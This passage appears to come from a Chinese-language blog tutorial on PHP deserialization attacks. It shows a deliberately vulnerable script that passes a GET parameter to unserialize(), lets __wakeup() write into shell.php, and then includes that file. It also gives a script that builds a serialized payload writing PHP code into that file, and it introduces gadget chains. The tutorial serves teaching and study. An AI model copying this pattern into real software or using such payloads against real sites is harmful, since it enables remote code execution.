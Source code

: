 ```php
<?php
class chybeta{
    var $test = '123';
    function __wakeup(){
        $fp = fopen("shell.php","w") ;
        fwrite($fp,$this->test);
        fclose($fp);
    }
}

$class3 = $_GET['test'];
print_r($class3);
echo "</br>";
$class3_unser = unserialize($class3);

require "shell.php";
// 为显示效果，把这个shell.php包含进来
?>
```

同目录下有个空的shell.php文件。一开始访问index.php。

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170617/3.jpg?raw=true)

基本的思路是，本地搭建好环境，通过 serialize\(\) 得到我们要的序列化字符串，之后再传进去。通过源代码知，把对象中的test值赋为 "&lt;?php phpinfo\(\); ?&gt;",再调用unserialize\(\)时会通过\_\_wakeup\(\)把test的写入到shell.php中。为此我们写个php脚本：

```php
<?php
class chybeta{
    var $test = '123';
    function __wakeup(){
        $fp = fopen("shell.php","w") ;
        fwrite($fp,$this->test);
        fclose($fp);
    }
}
$class4 = new chybeta();
$class4->test = "<?php phpinfo(); ?>";    $class4_ser = serialize($class4);    print_r($class4_ser);
?>
```

由此得到序列化结果：

```text
O:7:"chybeta":1:{s:4:"test";s:19:"<?php phpinfo(); ?>";}
```

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170617/4.jpg?raw=true)

**其他Magic function的利用**

但如果一次unserialize\(\)中并不会直接调用的魔术函数，比如前面提到的\_\_construct\(\)，是不是就没有利用价值呢？非也。类似于PWN中的ROP，有时候反序列化一个对象时，由它调用的\_\_wakeup\(\)中又去调用了其他的对象，由此可以溯源而上，利用一次次的“gadget”找到漏洞点。
